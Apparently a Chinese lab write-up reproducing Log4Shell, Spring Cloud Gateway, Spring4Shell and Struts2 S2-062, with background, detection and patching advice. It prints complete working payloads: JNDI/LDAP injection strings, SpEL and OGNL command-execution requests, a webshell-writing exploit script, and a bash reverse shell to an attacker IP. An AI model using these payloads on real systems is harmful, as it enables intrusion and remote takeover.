








# CVE漏洞复现

## CVE-2021-44228 Log4j2远程代码执行漏洞

```
什么是Log4j?
Log for Java，Apache的开源日志记录组件，使用非常广泛
使用方法：
1、pom引入依赖
2、获得logger实例
3、通过这些方法查看日志信息logger.info() debug() error() warn() …
```

```
什么是LDAP?
LDAP是轻量级目录访问协议（目录服务）
```

	

```
LDAP的作用在于可以使用一个数据库用于企业的各种服务，比如说企业的OA系统和企业邮箱以及VPN都可以使用相同的数据库进行验证。这就是LDAP的应用场景。
```

	

```
从代码层面进行理解，首先搭建LDAP服务端，从pom导入unboundid的ldap依赖,并设置端口监听为7389.
```

	

```
使用add函数添加数据。
```

	

```
客户端通过lookup函数访问ldap服务,查询里面的数据。如果查询不到运行则会显示报错，如果正常运行，说明查询到数据，并把数据放到object对象中。
```

	

```
什么是JNDI？
Java Naming and Directory Interface
Java 命名和目录接口（命名服务接口）
```

```
java中JDBC直接连接数据库的弊端
1、参数变动引发URL修改。
2、数据库产品切换，驱动包修改。
3、连接池参数的调整。
总结：不够灵活、不便于维护

比如下图jdbc数据库连接的代码，URL和用户密码参数可能会引起改变，以及mysql驱动包.
```

	

```
而JNDI也可以连接数据库，仅仅只需提供一个名字，比jdbc要灵活很多。
```

	

```
比如下面代码jndi只需根据name去寻找指定的配置文件，查找配置文件中是否有这个name,若有则把数据取出来，配置文件里面就包含了数据库的所有参数信息。
```

	

```
什么是命名服务？
命名服务（Naming Service）：用于根据名字找到位置、服务、信息、资源、对象等 K V
基本操作：
1、发布服务（名字和资源的映射）： bind()
2、用名字查找资源： lookup()

其中JNDI就是使用lookup函数，输入名字去查找对应的配置信息。
```

	

```
JNDI可以访问的服务
LDAP目录服务、RMI远程方法调用、DNS、XNam 、Novell目录服务、 CORBA对象服务、文件系统、Windows XP/2000/NT/Me/9x的注册表、DSML v1&v2、NIS。

JNDI和LDAP的关系
${jndi:ldap://wuya.com:5678/test}通过名字，查找（lookup）LDAP的服务，获取LDAP中存储的数据
```

```
什么是JNDI注入漏洞？
这里涉及到一个知识点，JNDI命名引用（NamingReference）
1、在LDAP里面可以存储一个外部的资源，叫做命名引用，对应Reference类比如远程HTTP服务的一个.class文件，这个很简单，就是说ldap存了name,但是具体的内容存放在外部，并没有放到ldap，这就是命名引用。
2、如果JNDI客户端，在LDAP服务中找不到对应的资源(test)，就去指定的地址请求。如果是命名引用，会把这个文件下载到本地。test不存在，下载Exploit.class，那么就可能下载到恶意文件。
3、如果下载的.class文件包含无参构造函数或静态方法块，加载的时候会自动执行，那么就可能执行到恶意代码。
```

```
JNDI漏洞注入流程
首先会传恶意参数，使得靶机使用lookup去访问不存在的ldap资源，那么就会去访问ldap服务器所指定的地址，那么这样就会下载到恶意文件，下载之后就会触发自动执行，导致远程代码执行。
```

	

```
接下来开始复现log4j漏洞，首先查看版本确定是jdk8的版本，只有jdk8版本及以下才能复现成功。
然后编译Exploit.java文件得到Exploit.class文件。
```

	

```
Exploit.java就是打开一个打开计算器的恶意代码文件。
```

	

```
将Exploit.class放入kali的指定目录下，然后开启http服务，以便靶机能够获取恶意文件。
```

	

```
运行LDAP服务器，端口监听7912，并设置LDAP如果没有资源，就访问指定的kali的http服务器获取恶意代码。
```


```
log4j运行，会访问这个ldap服务器，由于没有test资源，最后会下载恶意代码并执行。
这里可能有个疑惑就是为什么使用logger显示报错日志，却实际上没有输出报错信息，反而是访问ldap服务呢。是因为error函数内部的函数调用中使用了lookup函数，所以才造成了会访问ldap。
```

	

```
于是运行会弹出计算器。
```

	

```
1、为什么logger记录日志（参数如上），会执行恶意代码？而不是原样输出这一串字符？
第一个疑惑前面已经解答。
2、为什么jndilookup下载一个class文件会自动执行？
第二个问题是因为在下载这个文件的过程中，调用了命名引用管理的代码，会把这个恶意的class文件初始化，而初始化就会自动执行里面的静态代码块。
```

	

```
接下来利用一个spring boot案例继续演示这个log4j的漏洞。
先运行这个靶场。运行之前需要使用pom.xml下载项目依赖包。并根据readme.md设置好数据库并创建好数据库。
```

	

```
查看这个spring boot靶场发现，登录的用户界面存在log4j的漏洞，那么就可以利用起来。
```

	

```
这次我们使用marshalsec的jar包启动ldap服务。
下列命令是启动ldap服务,如果没有找到ldap的指定资源，就会访问下面http的地址下载恶意代码，然后ldap监听端口是7365
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer http://192.168.15.128:8089/#Exploit 7365
```

	

```
在启动http服务，确保能够下载到恶意代码。
python -m http.server 8089
```

	

```
将下面的payload从账号中注入，即可显示计算器。
${jndi:ldap://192.168.15.128:7365/test}
```

	

	

### 方法排查

```
该漏洞的影响版本
1、使用了log4j的组件，并且版本在2.x<=2.14.1 
2、JDK版本小于8u191、7u201、6u211
```

```
1、pom版本检查
2、可以通过检查日志中是否存在“jndi:ldap://”、“jndi:rmi”、“dnslog.cn”等字符来发现可能的攻击行为。
3、检查日志中是否存在相关堆栈报错，堆栈里是否有JndiLookup、ldapURLContext、getObjectFactoryFromReference等与jndi调用相关的堆栈信息。
```

### Log4jRCE漏洞修复

```
1、禁止用户请求参数出现攻击关键字。
2、禁止lookup下载远程文件（命名引用）。
3、禁止Log4j的应用连接外网，这就下载不了恶意代码了。
4、禁止Log4j使用lookup。
5、从Log4jjar包中中删除lookup。
```

```
修复方案
1、将Log4j框架升级到2.17.1版本
2、使用安全产品防护：WAF、RASP……
临时方案
1、升级JDK
2、修改Log4j配置
3、删除JndiLookup.class
```

```
2.15版本怎么修复的？
修复后的Log4j2在JNDIlookup中增加了很多的限制：
1、默认不再支持二次跳转（也就是命名引用）的方式获取对象
2、只有在log4j2.allowedLdapClasses列表中指定的class才能获取。即设置了白名单。
3、只有远程地址是本地地址或者在log4j2.allowedLdapHosts列表中指定的地址才能获取。即设置了白名单。
```

```
解释了为什么jdk8以后的版本不能复现成功，原因在于jdk8之后默认禁止使用jndi去访问ldap和rmi的资源。

JDK6u25、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMIClassLoader的安全性。JDK6u132、7u122、8u113之后：增加了
com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

JDK6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。
```

## CVE-2022-22947-SpringCloudGatewayRCE（SpEL表达式)

```
spring cloud是使用微服务架构，每个微服务可能在不同的主机上，所以ip也可能不同，这个时候需要一个spring cloud gateway组件进行统一的访问，那么当访问不同的url时就会自动路由到响应的微服务模块。
```

	

```
网关的作用:智能路由、负载均衡、协议转换、权限校验、限流熔断、黑白名单、API监控、日志审计
```

```
只需在pom.xml导入相应的依赖，即可使用spring-cloud gateway
<dependency>
<groupId>org.springframework.cloud</groupId>
<artifactId>spring-cloud-starter-gateway</artifactId>
</dependency>
```

```
Spring Cloud Gateway概念
路由（Route）:用于路由到不同的微服务模块
断言（Predicate）:比route更高级。
过滤器（Filter）:会对请求和回应的数据进行过滤修改。
```

```
Spring Boot Actuator是一个监控组件，可以用来监控spring cloud gateway
该监控组件的作用:健康检查、审计、统计、HTTP追踪

需要在pom导入依赖才可使用。
<dependencies>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-actuator</artifactId>
</dependency>
</dependencies>
```

```
该配置文件，前两段是设置gateway的监听端口
后两端是让actuator可以监控gateway组件。
```

	

```
这个是actuator监控组件可以通过url形式访问gateway的接口。
```

	

```
运行启动该spring cloud gateway靶场。运行之前先用maven安装依赖。
```

	

```
能用9000端口访问说明部署成功。
```

	

```
比如说这样就能使用监控组件去查看gateway接口信息。
```

	

### 漏洞复现

```
该漏洞的主要步骤。
1、启动Spring Cloud Gateway服务
2、添加过滤器（POST）
3、刷新过滤器（POST）
4、访问过滤器ID（GET）
```

```
启动该靶场有两种方式，第一种就是使用idea部署，这里就采用第一种方式。
1、本地工程
2、vulhub-dockercompose启动
```

```
直接打开repeater复制payload发送。首先这个第一步是添加路由，这里添加的路由名称是hacktest,并设置路由id是wuyaaq,并在filters添加一个name,这个name是spring的关键词，即AddResponseHeader会把参数的内容添加到响应头中。而这个响应头部添加的内容是SPEL表达式，会被spring解析执行。

POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "wuyaaq",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

```
显示201表示创建成功。
```

	

```
第二步刷新路由
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:9000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: keep-alive
Content-Length: 3
Content-Type: application/x-www-form-urlencoded
Origin: null
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0

a=1
```

	

```
第三步访问路由即可触发恶意命令的执行。这里访问的就是我们创建的路由hacktest
会发现执行命令的结果返回到web页面上。
```

	

### 原理分析

```
为什么添加过滤器（路由）会导致代码执行？
1、开启Acutator，可以通过接口列出路由（包括过滤器），如：/actuator/gateway/routes
2、可以通过/gateway/routes/{id_route_to_create}创建路由
3、通过/actuator/gateway/refresh刷新路由
4、当路由带有恶意的Filter，里面的spEL表达式会被执行
```

```
payload分析
本质上就是使用whoami命令并执行，并通过输入流得到结果，最后将结果转换为字符串输出出来。
#{new
String(T(org.springframework.util.StreamUtils).co pyToByteArray(T(java.lang.Runtime).getRuntime().exec(new
String[]{\"whoami\"}).getInputStream()))}
```

```
源码分析
首先ConfigurationService类会接收到spel表达式，先通过调用normalize进行规范化处理。
```

	

```
在调用normalize方法后，内部会调用到getvalue函数，这里会取出spel表达式。
```

	

```
进一步分析会发现这个getvalue方法，内部会得到expression表达式并使用getValue方法执行。
```

	

### 扫描与修复

```
影响范围
SpringCloudGateway<3.1.1
SpringCloudGateway<3.0.7

如果想要找哪些有使用spring boot网站，可以在zoomeye根据以下格式去查询。
app="vmware-SpringBoot-framework"
```

```
比如说找到一个网站，想确定是否有这个漏洞，可以使用工具进行扫描检测。
将url.txt中添加需要扫描的网站地址。
```

	

```
执行提供好的scan.py文件，即可发现自己搭建的靶场是存在漏洞的。
```

	

```
修复方案
1.更新升级SpringCloudGateway到以下安全版本：
SpringCloudGateway>=3.1.1
SpringCloudGateway>=3.0.7
2.或在不考虑影响业务的情况下禁用Actuator接口management.endpoint.gateway.enable：false，把Actuator禁用也可以解决这个漏洞，因为本身该漏洞就是利用Actuator监控组件。
```

## CVE-2022-22965-springrce

```
2022年3月31日 CVE-2022-22965
受影响范围：
Spring Framework < 5.3.18
Spring Framework < 5.2.20
JDK ≥ 9
不受影响版本：
Spring Framework = 5.3.18
Spring Framework = 5.2.20
JDK < 9
*与Tomcat版本有关
```

### Spring动态参数绑定

```
在复现这个漏洞之前需要了解前置知识:Spring动态参数绑定
```

```
比如这里定义了一个User类，属性内部又定义了department类。
```

	

```
而department类内部又有一个属性name.
```

	

```
如果不使用动态参数绑定，当访问/test的时候，我们传入的参数wuya,需要先自己在源码中创建User对象，在调用对象的set方法才行。
```

	

```
如果使用spring的动态参数绑定，我们可以访问下面的注释的测试地址，那么spring会自动的把这些参数赋值到user对象，最后就会打印出对应的结果，这样省去了我们创建对象，get和set方法的过程。
```

	

```
当游览器访问这个测试地址，idea的后台就会显示出来。这就是动态参数绑定的便利性。并且无论这个对象内部包含多深的对象，都可以使用动态参数绑定赋值。
```

	

```
spring参数的自动绑定，其实内部是继善就是get得到对象，在使用set赋值属性，只是这些都被封装好了
```

	

```
而实际上动态参数绑定这个是怎么实现的呢？其实是使用PropertyDescriptor。
它会自动调用类对象的get和set方法。
```

	

```java
package com.wuya.test;

import com.wuya.bean.User;
import java.beans.BeanInfo;
import java.beans.Introspector;
import java.beans.PropertyDescriptor;

public class PropertyDescriptorDemo {
    public static void main(String[] args) throws Exception {
        User user = new User();
        user.setName("wuya");

        BeanInfo userBeanInfo = Introspector.getBeanInfo(User.class);
        PropertyDescriptor[] descriptors = userBeanInfo.getPropertyDescriptors();
        PropertyDescriptor userNameDescriptor = null;
        for (PropertyDescriptor descriptor : descriptors) {
            if (descriptor.getName().equals("name")) {
                userNameDescriptor = descriptor;
                System.out.println("userNameDescriptor: " + userNameDescriptor);
                System.out.println("Before modification: ");
                System.out.println("user.name: " + userNameDescriptor.getReadMethod().invoke(user));
                userNameDescriptor.getWriteMethod().invoke(user, "wuyanzu");
            }
        }
        System.out.println("After modification: ");
        System.out.println("user.name: " + userNameDescriptor.getReadMethod().invoke(user));
    }
}
运行结果如下。上面的代码主要分为两种方式，第一种直接set方法赋值，第二种使用工具类获得类的类型，并判断指定的属性获得其中的read和write方法进行值的获取和赋值。
```

	

```
Spring自带：BeanWrapperImpl，本质上是对PropertyDescriptor的封装。
作用：对Spring容器中管理的对象，自动调用get/set方法，进行取值和赋值。
```

	

```
了解了动态参数绑定就可以有利用思路了
1、通过Controller的参数赋值（自动绑定），可以修改参数对象的任意属性值（以及子对象属性值）比如User对象、Country对象
2、找到一些包含敏感属性的对象改什么？
3、可以修改存储路径、文件名、文件内容吗？

以下是tomcat日志的，主要分为三种日志，一般是利用http接口访问日志，看能否写成木马。
```

	

```
其中server.xml文件用于设置接口访问日志的格式。可以修改这里的格式，来写木马。
```

	

### 漏洞复现

```
首先可以先使用该命令，把java项目打包成war包。
```

	

```
操作系统：Windows
JDK：11.0.11
Tomcat：9.0.60
SpringBoot：2.6.3（注意不使用内置Tomcat）
靶场启动：把提供的ROOT.war包放在tomcat/webapps目录下。然后点击start.bat开启tomcat服务器。注意如果webapps目录下已经有了ROOT先删除再点击start.bat运行tomcat.
```

	

```
http://localhost:8080/addUser
显示说明靶场部署完毕。
```

	

```
使用工具运行。
python exploit.py  --url http://localhost:8080/addUser
```

	

```
访问即可运行命令，可以通过cmd参数执行想要的命令，由于我这里使用的是tomcat9高级版本的，所以没有复现成功。若有复现可以去vulhub靶场。
```

	

```
vulhub靶场部署
```

	

```
访问靶场随便输入两个参数，发现具有动态参数绑定。
```

		

```
调用工具执行。
python vulhub_CVE-2022-22965_poc.py --url http://192.168.15.50:8080/
```

	

```
在cmd传入命令，即可从web回显出结果。
```

	

### 原理分析

```
这个exploit.py脚本主要就是这一个函数，log_pattern是设置一句话木马的内容，log_file_suffix设置文件后缀，以此类推设置文件的存储目录，文件名，以及日志日期格式等等。从以下payload其实可以发现就是根据tomcat日志的格式类去设置内容的。
```

```python
def run_exploit(url, directory, filename):
    log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
                  f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
                  f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
                  f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"

    log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
    log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
    log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
    log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
```

	

```
那么就有以下问题
1、哪个对象有这些属性值？
org.apache.catalina.valves.AccessLogValve
2、从最开始的Controller接口开始，怎么找到一个对象包含了AccessLogValve？
其实从User类开始，虽然这个类属性里面没有class,但是在使用spring动态参数绑定中会用到一个方法getCachedIntrospectionResults()会缓存一个class属性，那么接下来就有了下面的调用链路。

这个是调用链路。
class.module.classLoader.resources.context.parent.pipeline.first.pattern
缓存的Class对象
java.lang.Class.getModule()
java.lang.Module.getClassLoader()
org.apache.catalina.loader.ParallelWebappClassLoader.getResources()
org.apache.catalina.webresources.StandardRoot.getContext()
org.apache.catalina.core.StandardContext.getParent()
org.apache.catalina.core.StandardHost.getPipeline()
org.apache.catalina.core.StandardPipeline.getFirst()
org.apache.catalina.valves.AccessLogValve.setPattern()
```

### 漏洞排查与修复

```
漏洞排查
1、是否启用Spring 参数绑定功能
2、JDK版本 9+
3、Tomcat部署方式及版本
4、Tomcat Access日志。
5、流量分析，从web层面看发过来的包有没有参数绑定的调用链关键词。
6、日志分析，从后台日志角度查看有没有参数绑定的调用链关键词。

漏洞修复
1、升级Spring
2、升级Tomcat
3、安装安全产品，比如WAF（花钱）
```

## CVE-2021-31805-struts2s2-062 ONGL远程代码执行

### 前置知识分析

```
strutw2作用是对请求的数据进行解析。
```

	

```
什么是MVC（Model-View-Controller）?
没有MVC组件，那么开发会很困难，比如以下几点：
1、为每个请求编写处理的Servlet
2、使用getParameter()获取请求参数
3、转换参数的数据类型，包括实体对象
4、处理重定向和转发URL
有MVC：
分离页面展示代码和业务逻辑代码，提升可维护性、提升开发效率
```

```
漏洞概况
2022年4月13日 恶意OGNL表达式，远程代码执行
漏洞影响版本
2.0.0 <= Apache Struts <= 2.5.29
```

```
接下来简单分析一下struts的代码，比如下面当访问了test.action那么就会触发执行testAction类的方法execute.当执行完函数后返回success就会跳转到test.jsp页面。
```

	

```
该类的方法其实就是返回success。
```

	

```
当跳转到test.jsp页面，我们继续分析test.jsp的源码。
<s:a> 是 Struts 2 提供的一个标签，用于生成 HTML 的 <a> 超链接标签。而其中%{id} 是一个 OGNL 表达式，当从web页面以id作为参数传入，那么就会被OGNL表达式解析执行。
```

	

```
比如以参数id传入%{6*6}就会回显36.
其中URL编码%25就是%
```

	

### 复现漏洞

```
了解基本原理后，启动靶场。
```

	

```
启动靶场后发现也有同样的ONGL解析漏洞。
```

	

```
直接bp点击repeater复制以下payload，即可发现命令执行了。

POST /index.action HTTP/1.1
Host: 192.168.15.50:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 835

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

	

```
bash -i >& /dev/tcp/192.168.15.128/7777 0>&1
打开该网站，把反弹连接命令转换为base64格式的命令。之所以要编码是因为原本的反弹连接命令包含太多特殊字符了。
https://ares-x.com/tools/runtime-exec/
```

	

```
kali攻击机监听7777端口。
nv -lvvp 7777
```

	

```
使用bp复制到repeater继续发送。将base64加密好的命令复制到指定位置即可。
POST /index.action HTTP/1.1
Host: 192.168.15.50:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 922

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1LjEyOC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

```
获得shell成功。
```

	

### 原理分析

```
项目使用了%{}解析OGNL表达式，对用户输入的内容进行二次解析的时候，如果没有验证，可能导致远程代码执行。
这个漏洞主要围绕以下三个问题。
1、什么是OGNL表达式
2、OGNL表达式在Struts2中用来做什么
3、OGNL解析是怎么造成代码执行的
```

```
